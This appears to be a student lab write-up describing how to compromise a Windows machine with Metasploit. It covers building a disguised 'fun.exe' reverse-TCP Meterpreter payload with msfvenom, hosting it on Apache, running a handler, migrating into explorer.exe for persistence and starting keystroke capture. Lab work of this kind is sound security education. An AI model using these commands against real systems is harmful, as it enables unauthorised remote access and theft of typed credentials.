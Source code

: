 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
## Name: Vineela Shaik
## Reg no: 212223040243
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135930.png>)
Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135937.png>)
copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start
Check the status of apache2
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135942.png>)
Invoke msfconsole:
## OUTPUT:
![alt text](<Screenshot 2025-04-26 135948.png>)
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135953.png>)
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## OUPUT :
![alt text](<Screenshot 2025-04-26 135958.png>)
WINDOWS :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads
## BROWSE OUTPUT:
![alt text](<Screenshot 2025-04-26 140006.png>)
## DOWNLOAD OUTPUT:
![alt text](<Screenshot 2025-04-26 140014.png>)
## COME BACK TO PARROT:
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
## OUTPUT :
![alt text](<Screenshot 2025-04-26 140020.png>)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## OUTPUT :
![alt text](<Screenshot 2025-04-26 140027.png>)
## WINDOWS OUTPUT :
![alt text](<Screenshot 2025-04-26 140035.png>)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![alt text](<Screenshot 2025-04-26 140043.png>)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
